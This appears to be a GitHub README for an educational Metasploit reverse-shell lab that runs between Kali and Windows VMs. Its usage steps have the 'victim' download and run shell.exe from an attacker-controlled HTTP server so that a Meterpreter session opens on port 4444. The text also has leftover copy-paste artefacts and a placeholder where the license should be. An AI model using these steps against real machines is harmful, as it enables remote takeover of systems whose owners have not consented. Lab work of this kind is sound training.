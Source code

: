 # Metasploit Reverse Shell Lab

A step-by-step reverse shell lab using Metasploit Framework, designed for educational purposes only in a virtual test environment (Kali + Windows 10 VM).

## 📁 Folder Structure

metasploit-reverse-shell-lab/
├── scripts/ # run_lab.sh automation script
├── payloads/ # Generated shell.exe (ignored in Git)
├── screenshots/ # Images of the shell session
├── docs/ # Report or markdown notes
├── .gitignore
├── README.md
└── LICENSE

bash
Copy
Edit

## ⚙️ How to Use

### 1. On Kali Linux (Attacker):

```bash
cd scripts
./run_lab.sh <KALI_IP> 4444
2. On Windows VM (Victim):
Open browser and go to:

arduino
Copy
Edit
http://<KALI_IP>:8000/shell.exe
Download and run the file to trigger a Meterpreter session.

✅ Expected Output
On Kali, you'll get:

nginx
Copy
Edit
meterpreter > sysinfo
⚠️ Disclaimer
This lab is for educational and ethical hacking in a controlled virtual environment only. Do not use this code against unauthorized systems.

yaml
Copy
Edit

---

### ✅ `LICENSE` (MIT License — Open Source Friendly)

```text
MIT License

Copyright (c) 2025 Aarya

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction...

[you can paste full MIT license here from: https://choosealicense.com/licenses/mit/]
